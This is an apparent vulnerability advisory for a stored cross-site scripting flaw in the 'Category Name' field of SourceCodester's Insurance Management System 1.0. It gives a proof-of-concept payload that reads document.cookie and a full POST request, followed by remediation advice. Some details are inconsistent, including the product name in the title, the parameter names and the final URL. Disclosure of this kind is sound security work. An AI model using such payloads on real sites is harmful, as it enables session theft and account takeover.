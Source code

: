 Stored Cross-Site Scripting Vulnerability in SourceCodester Online Ticket genereation System
:

    Vendor: Sourcecodester
    Product: Insurance Management System
    Product URL: Insurance Management System

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Category Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Category Name
    Severity: High
    Affected URL: http://localhost/e-insurance/Script/admin/core/new_category2
    Affected Parameter: Category Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Category Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Category Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/e-insurance/Script/admin/core/new_category2 

Fill in the desired data in the input fields . Intercept the request in the web proxy. Modify the lname parameter as shown below and send the request to the server.

category=4&subject=<h1+onmouseover=confirm(document.cookie)>hii</h1>&description=hii&submit=1

    In the browser having admin account logged in, navigate to the Support Ticket section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of Admin.

https://drive.google.com/file/d/1TTO1_aVunRwALXPgZAfAZP4RhwgWXN4C/view?usp=drive_link
Payload:

name=<h1+onmouseover=confirm(document.cookie)>hii</h1>&status=1&submit=1


Request:

POST /e-insurance/Script/admin/core/new_category2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://localhost
Connection: close
Referer: http://localhost/e-insurance/Script/admin/?page=ticket_categories
Cookie: PHPSESSID=kmfcp9qgvb789441h8l4ues37v; __insuarance__logged=1; __insuarance__key=DEAH5SIN6WSHVCZFXTH5
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

name=<h1+onmouseover=confirm(document.cookie)>hii</h1>&status=1&submit=1
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Category name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.